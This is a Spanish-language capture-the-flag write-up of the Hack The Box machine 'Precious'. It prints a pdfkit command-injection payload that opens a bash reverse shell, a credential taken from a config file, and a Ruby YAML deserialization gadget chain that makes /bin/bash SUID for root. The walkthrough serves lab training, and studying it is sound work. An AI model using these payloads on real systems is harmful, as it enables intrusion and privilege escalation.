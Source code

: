 ```yaml
---
title: Precious Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, CommandInjection]
image:
  path: ../../assets/img/commons/Precious/Precious.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- --min-rate 5000 --open -v -n -Pn 10.129.77.238 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:16 -05
Initiating SYN Stealth Scan at 16:16
Scanning 10.129.77.238 [65535 ports]
Discovered open port 80/tcp on 10.129.77.238
Discovered open port 22/tcp on 10.129.77.238
Completed SYN Stealth Scan at 16:16, 14.00s elapsed (65535 total ports)
Nmap scan report for 10.129.77.238
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80. Vemos que hay un redirec, entonces incluimos el dominio al **/etc/hosts**

```
❯ whatweb http://10.129.77.238
http://10.129.77.238 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.77.238], 
RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]

http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], 
IP[10.129.77.238], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], 
X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sCV -p22,80 10.129.77.238 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:27 -05
Nmap scan report for 10.129.77.238
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Si nos vamos a la web, podremos ver un convertidor de web a PDF. Si ponemos un servidor con python podemos ver que nos captura lo que tenemos en local y lo convierte a PDF, sin embargo si interceptamos la petición con **BurpSuite** en la respuesta veremos "Generated by pdfkit v0.8.6"

![Burpsuite]({{ 'assets/img/commons/Precious/peticion.png' | relative_url }}){: .center-image }
_Petición por Burp_ 

## Intrusión

Si buscamos vulnerabilidades ante esa versión de **pdfkit** encontramos este [artículo](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) que nos dice cómo explotarla.

Si vemos en [MonkeyPentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) hay una forma de entablarnos una reverse shell con bash, sólo que en este caso le añadimos el **bash -c** para que nos lea el primer argumento y le hacemos la petición al localhost para que nos ejecute ese comando
```
localhost/?name=#{"%20`bash -c 'bash -i >& /dev/tcp/<tuip>/<puerto> 0>&1'`"}
```

Antes de hacer lo anterior debimos estar en escucha con **nc** y obtendremos la shell

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.77.238] 55796
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```
## Privesc

Luego igualamos **TERM** a **xterm** para poder hacer control+L y nos limpie la pantalla


```
ruby@precious:/var/www/pdfapp$ export TERM=xterm
```
Si nos vamos al directorio de **Home** de Ruby podemos ver un directorio ".bundle" oculto al cual si entramos y visualizamos el archivo de configuración encontramos las credenciales de Henry


```
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI*******"
ruby@precious:~/.bundle$ 
```

Una vez dentro podremos visualizar la flag de user

```
ruby@precious:~/.bundle$ su henry 
Password: 
henry@precious:/home/ruby/.bundle$ whoami
henry
henry@precious:/home/ruby/.bundle$ cat /home/henry/user.txt 
6b76013c67d712c4d671314833926bc7
henry@precious:/home/ruby/.bundle$
```
Vemos que tenemos permisos de sudoers

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$
```
Visualizamos el **/opt/update_dependencies.rb**

```ruby 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Es un script en Ruby y vemos que lee y ejecuta un archivo "dependencies.yml" el cual nosotros crearemos y meteremos un payload para escalar privilegios. Si buscamos por archivos yml payloads encontraremos un [artículo](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/) donde al final nos pone un repositorio en [github](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565). Tomamos el segundo payload y lo modificamos para que nos dé permiso SUID en la **/bin/bash**


```ruby 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```
Le damos permisos de ejecución al "dependencies.yml"

```
henry@precious:~$ ls
dependencies.yml  user.txt
henry@precious:~$ chmod +x dependencies.yml
```
Luego ejecutamos con ruby el "/opt/update_dependencies.rb"


```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Listo, veremos que el "/bin/bash" tendrá permiso SUID y simplemente ponemos "bash -p" para convertirnos en root y visualizar la flag de root 

```
henry@precious:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
9ac4d14553215cb0537bf66d7232f157
bash-5.1#
```
